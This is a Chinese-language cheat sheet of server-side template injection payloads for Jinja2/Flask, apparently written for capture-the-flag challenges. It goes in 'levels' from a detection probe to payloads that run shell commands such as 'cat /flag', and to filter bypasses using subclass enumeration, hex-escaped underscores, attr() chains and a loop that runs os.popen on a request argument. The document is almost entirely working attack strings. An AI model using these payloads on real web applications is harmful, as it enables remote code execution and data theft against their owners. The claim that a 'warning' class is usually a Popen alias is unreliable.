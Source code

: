 ##### level 1  测试是否存在ssti
```
{{7*7}}    
```
##### level 2  直接执行系统命令（无过滤）
```
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```
##### level 3  子类枚举触发 Popen（绕过对 config 的依赖）
```
{{''.__class__.mro()[1].__subclasses__()[396]('cat /flag', shell=True, stdout=-1).communicate()[0]}}
```
##### level 4  中级绕过——点与下划线被过滤
1. **数组/字典访问**：
```
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag')['read']()}}
```
2. **Hex 转义下划线**：
```
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat /flag')['read']()}}
```
##### level 5  高级绕过——`attr` 过滤器链
	完全不用 `.`、`_`、`[]`，通过 Jinja2 的 `attr` 动态调用,利用管道和 `attr` 彻底绕过黑名单
```
{{request
  |attr('application')
  |attr('\x5f\x5fglobals\x5f\x5f')
  |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
  |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')
  |attr('popen')('cat /flag')
  |attr('read')()
}}
```
##### level 6 `config.items()` + 子类枚举
- 当 `config` 对象或 `__init__.__globals__` 被屏蔽时，可先枚举配置项再反射：
```
{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]('/tmp/flag').read()}}
```
先从 `config.items()` 拿到任意对象，再通过其 `__class__` 枚举子类 [pwny.cc](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti?utm_source=chatgpt.com)
##### level 7 极致绕过——动态 for 循环 + 条件筛选
- 无需固定索引，遍历子类列表并按名称筛选执行（适合对索引未知的环境）：
```
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{ x()._module.__builtins__['__import__']('os').popen(request.args.input).read() }}
  {% endif %}
{% endfor %}
```
遍历所有子类，匹配名称包含 “warning” 的类（通常是 `subprocess.Popen` 的别名），再执行命令 [github.com](https://github.com/payloadbox/ssti-payloads?utm_source=chatgpt.com)

